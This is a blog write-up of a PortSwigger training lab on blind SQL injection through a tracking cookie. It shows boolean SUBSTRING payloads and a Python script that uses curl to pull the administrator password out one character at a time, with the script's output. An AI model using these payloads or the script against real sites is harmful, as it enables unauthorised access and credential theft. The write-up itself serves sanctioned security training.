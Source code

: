 +++
date = '2024-08-26T01:38:14+03:00'
draft = false
title = 'Blind SQLi Portswigger Conditional Responses'
description = 'A guide to exploiting a blind SQLi vulnerability using conditional responses in Portswigger with my python script.'
tags = ['sqli', 'portswigger', 'python', 'web']
+++

[Portswigger lab](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)

# The Lab description
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.
# Understanding the lab
When i access the lab i find that it works normally till i hit the login or refresh it gives me a `Welcome Back` begind the login icon.
By analyzing the request i found out that there r two cookies
```header
Cookie: TrackingId=e2D1yRgn8a5Q8l8E; session=OoYYGOLsm9n9NqZ2rLc4r2H4IBvhT8i5
```
contains `TrackingId` and `session`.

I assumed that the TrackingId is in an SQL query like `SELECT TrackingId FROM users WHERE TrackingId = <MY COOKIE>;`
So i started testing injecting in there to what happens to the posisive msg `Welcome Back`.
First when i change the id it doesn’t appear so the trackingid is essential.
Then opened burp repeater trying to add something like `...8E' OR '1'='2' --` make it doesn’t appear.
So started hunting.
I started testing the database data the site gave me about the lab 
`8E' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,1) > '0'--; session=OoYYGOLsm9n9NqZ2rLc4r2H4IBvhT8i5`

it worked and when changin the test to `< '0'` it doesn’t.
so at first i tried it manually found out that i will not finish so i used the most way i like… scripting.

I made this script to start getting the password
```python
# exploit.py
import subprocess

def getCmd(i, char, sign):
    link = "https://0af900ba04c11a3481b6b15700db0006.web-security-academy.net/"
    cookies = f"Cookie: TrackingId=e2D1yRgn8a5Q8l8E' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),{i},1) {sign} '{char}'--; session=OoYYGOLsm9n9NqZ2rLc4r2H4IBvhT8i5" 
    return f"""curl -L "{link}" -H "{cookies}" """
i=1
password = ""
positive = "<div>Welcome back!</div><p>|</p>"

while True:
    for char in "abcdefghijklmnopqrstuvwxyz0123456789":
        cmd = getCmd(i, char, '=')
        res = subprocess.run(cmd, shell=True, check=True, capture_output=True)
        if res.stdout.decode().find(positive) != -1:
            password += char
            print(f"Password: {password}")
            break
    i += 1
    if subprocess.run(getCmd(i, "", '='), shell=True, check=True, capture_output=True).stdout.decode().find(positive) != -1:
		print("Done!")
        break
```

Then launching get giving me
```python
$ python sqlGuessPassword.py
Password: y
Password: yq
Password: yqc
Password: yqcs
Password: yqcsv
Password: yqcsvs
Password: yqcsvsd
Password: yqcsvsd2
Password: yqcsvsd2d
Password: yqcsvsd2dy
Password: yqcsvsd2dyz
Password: yqcsvsd2dyzd
Password: yqcsvsd2dyzdc
Password: yqcsvsd2dyzdc3
Password: yqcsvsd2dyzdc3g
Password: yqcsvsd2dyzdc3gu
Password: yqcsvsd2dyzdc3gui
Password: yqcsvsd2dyzdc3guia
Password: yqcsvsd2dyzdc3guia4
Password: yqcsvsd2dyzdc3guia4g
Done
```

logging in and… Congratulations 😇

